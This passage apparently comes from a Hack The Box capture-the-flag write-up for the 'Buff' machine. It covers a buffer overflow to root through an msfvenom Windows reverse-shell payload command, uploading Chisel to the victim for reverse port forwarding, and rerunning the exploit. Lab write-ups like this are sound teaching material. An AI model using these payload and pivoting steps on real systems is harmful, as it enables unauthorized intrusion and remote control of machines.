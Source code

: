 ![sucess](https://github.com/0xLJoseb/Apuntes/blob/main/Buff%20Writeup/Content%26/success.PNG)

Now, we have accessed to the target machine.


# Buffer Overflow Exploitation and Root Access
***
Now that we see how the script works, let's use it on the target machine.

So, let's generate a new shellcode with msfvenom, where the IP will now be that of the Hack The Box VPN.
```
msfvenom -p windows/shell_reverse_tcp LHOST=[HOST] LPORT=[PORT] --platform windows -a x86 -b "\x00" -f c EXITFUNC=thread
```

Once we have the interactive shell we received from the page, just like we did when obtaining the user flag. Once we have the reverse shell, we will go to the 'C:\Windows\Temp' directory and make a "direct" directory there
```
mkdir direct
```

We'll need now to upload the Chisel file to the victim machine so that we can perform reverse port forwarding from port 8888 on the target machine [Windows] to our IP on port 8888.

We can download the Windows executable for Chisel from the website
(https://github.com/jpillora/chisel/releases/tag/v1.9.1)
```Note: We can verify if we are downloading a 32-bit or 64-bit file by running the command on the target machine [Windows]:"```
```
systeminfo
```

We will send the chisel.exe file to the target machine [Windows] through an http.server.

Now that we have received the chisel.exe 
Let's do the same thing we did in the **_'Origin of the exploit, why, and how does it work?'_** section

- [Linux machine]: Chisel Server
- [Windows machine]: Chisel Client

![chiselultimo](https://github.com/0xLJoseb/Apuntes/blob/main/Buff%20Writeup/Content%26/chiselultima.PNG)

Now we run again the exploit.

![roottxt](https://github.com/0xLJoseb/Apuntes/blob/main/Buff%20Writeup/Content%26/roottxt.PNG)

**Pwned.**

***

```